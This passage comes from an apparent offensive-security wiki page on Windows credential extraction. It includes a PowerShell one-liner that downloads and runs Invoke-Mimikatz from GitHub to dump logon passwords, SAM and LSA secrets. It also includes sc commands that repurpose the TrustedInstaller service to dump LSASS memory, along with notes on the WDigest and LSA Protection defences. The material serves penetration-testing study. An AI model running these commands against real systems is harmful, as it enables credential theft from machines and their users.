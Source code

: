 ## Powershell

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');
Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```
{% endcode %}

## Extracción de credenciales

### LM and Clear-Text in memory <a href="#lm-and-clear-text-in-memory" id="lm-and-clear-text-in-memory"></a>

From Windows 8.1 and Windows Server 2012 R2 onwards, significant measures have been implemented to safeguard against credential theft:

* **LM hashes and plain-text passwords** are no longer stored in memory to enhance security. A specific registry setting, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ must be configured with a DWORD value of `0` to disable Digest Authentication, ensuring "clear-text" passwords are not cached in LSASS.
* **LSA Protection** is introduced to shield the Local Security Authority (LSA) process from unauthorized memory reading and code injection. This is achieved by marking the LSASS as a protected process. Activation of LSA Protection involves:
  1. Modifying the registry at _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ by setting `RunAsPPL` to `dword:00000001`.
  2. Implementing a Group Policy Object (GPO) that enforces this registry change across managed devices.

Despite these protections, tools like Mimikatz can circumvent LSA Protection using specific drivers, although such actions are likely to be recorded in event logs.

#### Counteracting SeDebugPrivilege Removal <a href="#counteracting-sedebugprivilege-removal" id="counteracting-sedebugprivilege-removal"></a>

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration:

bash

{% code overflow="wrap" %}
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
{% endcode %}

This allows the dumping of the <mark style="background-color:green;">`lsass.exe`</mark> memory to a file, which can then be analyzed on another system to extract credentials:
